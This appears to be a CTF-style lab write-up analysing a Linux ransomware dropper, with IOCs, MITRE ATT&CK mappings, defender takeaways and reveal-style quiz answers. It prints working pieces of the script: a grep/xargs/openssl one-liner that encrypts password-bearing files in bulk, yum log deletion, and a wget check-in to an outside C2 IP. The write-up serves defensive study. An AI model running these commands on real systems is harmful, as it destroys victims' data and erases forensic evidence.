

## Scenario

Analyse a malicious Linux shell script recovered from a compromised system. The script is a ransomware dropper that downloads tools, encrypts files across the system, and leaves a ransom note. Identify the C2 infrastructure, encryption method, anti-forensics techniques, and execution order of the ransomware functions.

---

## Methodology

### Initial Triage — Script Overview

The artefact is a Linux bash script. Static analysis is the primary technique here — reading the script line by line to understand its functionality without executing it. The script is structured into discrete functions covering dependency installation, file encryption, anti-forensics, and C2 check-in.

### Dependency Installation — Tool Check Functions

The script begins with two dependency check functions that ensure the required tools are present before encryption begins:

```zsh
check_openssl() {
    apt-get install openssl --yes
    yum install openssl -y
    rm -rf /var/log/yum*
}

check_curl() {
    apt-get install curl --yes
    apt-get install wget --yes
    yum install curl -y
    yum install wget -y
    rm -rf /var/log/yum*
}
```

Both functions attempt installation via `apt-get` (Debian/Ubuntu) and `yum` (RHEL/CentOS) — making the script distribution-agnostic and capable of running on a wide range of Linux systems.

**Anti-forensics:** After each `yum` installation, the script deletes yum logs:

```zsh
rm -rf /var/log/yum*
```

This removes evidence of the package installations from the system logs, hindering post-incident investigation.

### C2 Communication — Dead Man's Switch

Before executing any encryption, the script performs a C2 check-in using `wget` in spider mode (no file download, just an HTTP HEAD request):

```zsh
wget http://185.141.25.168/check_attack/0.txt -P /tmp --spider --quiet --timeout=5
```

This acts as a **dead man's switch** — if the C2 server is unreachable (taken down by defenders or law enforcement), the ransomware will not execute. This is a common operational security measure used by ransomware operators to:

- Maintain control over which victims get encrypted
- Abort attacks remotely if the campaign is discovered
- Verify the target is online before committing

**C2 IP:** `185.141.25.168` **Check URL:** `hxxp[://]185[.]141[.]25[.]168/check_attack/0.txt`

The initial dropper is also downloaded from the same C2:

```
hxxp[://]185[.]141[.]25[.]168/bash.sh
```

saved to `/tmp`.

### Ransom Note — /etc/motd

The script overwrites `/etc/motd` (Message of the Day — displayed to users on login) with a ransom message:

```
you were hacked
```

The message includes a contact email address for the attacker: `nationalsiense@protonmail.com`

Using `/etc/motd` is deliberate — it ensures every user who logs into the system sees the ransom demand immediately, maximising pressure on the victim organisation.

### Encryption Functions

The script contains 5 encryption functions, each targeting a different area of the filesystem:

|Function|Target|
|---|---|
|`encrypt_ssh`|SSH keys and configuration|
|`encrypt_grep_files`|Files matching password-related patterns|
|`encrypt_home`|All home directories|
|`encrypt_root`|Root directory files|
|`encrypt_db`|Database files|

**Execution order (as called in the script):** `encrypt_ssh` → `encrypt_grep_files` → `encrypt_home` → `encrypt_root` → `encrypt_db`

The ordering is deliberate — SSH keys are encrypted first to cut off remote access and prevent administrators from logging back in. Password-containing files are targeted next to prevent credential recovery.

### Encryption Method

The `encrypt_grep_files` function reveals the encryption implementation:

```zsh
grep -r '/' -i -e "pass" --include=\*.{txt,sh,py} -l | tr '\n' '\0' | \
xargs -P 10 -I FILE -0 openssl enc -aes-256-cbc -salt -pass pass:$PASS_DEC \
-in FILE -out FILE.☢
```

Breaking this down:

- `grep -r '/' -i -e "pass" --include=\*.{txt,sh,py} -l` — recursively searches for files containing "pass" with `.txt`, `.sh`, or `.py` extensions
- `tr '\n' '\0'` — converts newlines to null bytes for safe `xargs` handling
- `xargs -P 10` — runs 10 parallel encryption processes for speed
- `openssl enc -aes-256-cbc -salt` — encrypts using AES-256-CBC with a random salt
- `-pass pass:$PASS_DEC` — uses a variable-stored passphrase (the decryption key the attacker holds)
- `-out FILE.☢` — appends the radioactive symbol extension to encrypted files

**Encrypted file extension: `.☢`**

The use of the radioactive symbol (U+2622) as a file extension is both distinctive and intimidating — a deliberate psychological choice to signal contamination of the victim's files.

---

## Attack Summary

|Phase|Action|
|---|---|
|Download|`bash.sh` fetched from `185[.]141[.]25[.]168` to `/tmp`|
|Dependency install|`openssl`, `curl`, `wget` installed via apt-get/yum|
|Anti-forensics|Yum logs deleted with `rm -rf /var/log/yum*`|
|C2 check-in|HEAD request to `check_attack/0.txt` — abort if unreachable|
|Defacement|`/etc/motd` overwritten with ransom demand|
|Encryption|SSH → grep files → home → root → db (AES-256-CBC)|
|Ransom contact|`nationalsiense@protonmail.com` left in motd|

---

## IOCs

|Type|Value|
|---|---|
|IP|185[.]141[.]25[.]168|
|URL|hxxp[://]185[.]141[.]25[.]168/bash.sh|
|URL|hxxp[://]185[.]141[.]25[.]168/check_attack/0.txt|
|Email|[nationalsiense@protonmail.com](mailto:nationalsiense@protonmail.com)|
|File extension|.☢|
|Ransom note path|/etc/motd|
|Dropper path|/tmp/bash.sh|

---

## MITRE ATT&CK

|Technique|ID|Description|
|---|---|---|
|Data Encrypted for Impact|T1486|AES-256-CBC encryption of SSH keys, home dirs, DBs, password files|
|Command and Scripting: Unix Shell|T1059.004|Entire attack delivered as a bash script|
|Indicator Removal: Clear Linux Logs|T1070.002|`rm -rf /var/log/yum*` removes package install evidence|
|Ingress Tool Transfer|T1105|openssl, curl, wget downloaded from C2|
|Defacement: Internal Defacement|T1491.001|/etc/motd overwritten with ransom demand|
|Scheduled Transfer / C2 Check|T1102|wget spider request to C2 before execution|

---

## Defender Takeaways

**The C2 check-in is a detection opportunity** — a wget spider request to an external IP before any encryption begins is detectable via network monitoring. Egress filtering and alerting on unexpected outbound connections from servers would catch this before the encryption phase runs.

**Yum log deletion is a tell** — `rm -rf /var/log/yum*` immediately after package installation is abnormal behaviour. File integrity monitoring on `/var/log/` and auditd rules on `rm` targeting log directories would surface this.

**`/etc/motd` modification** — File integrity monitoring (FIM) on `/etc/motd` is trivial to implement and would immediately alert on ransomware that uses this defacement technique.

**AES-256-CBC with a hardcoded passphrase variable** — If the passphrase (`$PASS_DEC`) can be recovered from memory or the script itself before encryption completes, files may be decryptable without paying the ransom. Memory forensics immediately after detection is worth pursuing.

**Parallel encryption (`xargs -P 10`)** — Running 10 concurrent encryption processes will cause a significant spike in CPU usage and disk I/O. Anomaly detection on resource utilisation can provide an early warning even without signature-based detection.


---

<div class="qa-item"> <div class="qa-question-text">What is the malicious IP address referenced multiple times in the script?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">185.141.25.168</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">The script uses apt-get to retrieve two tools, and uses yum to install them. What is the command line to remove the yum logs afterwards?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">rm -rf /var/log/yum*</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">A message is created in the file /etc/motd. What are the three first words?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">you were hacked</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">This message also contains a contact email address to have the system fixed. What is it?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">nationalsiense@protonmail.com</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">When files are encrypted, an unusual file extension is used. What is it?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">.☢</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">There are 5 functions associated with the encryption process that start with ‘encrypt’. What are they, in the order they’re actually executed in the script? (do not include "()")</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">encrypt_ssh, encrypt_grep_files, encrypt_home, encrypt_root, encrypt_db</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">The script will check a text file hosted on the C2 server. What is the full URL of this file?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">http://185.141.25.168/check_attack/0.txt</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>
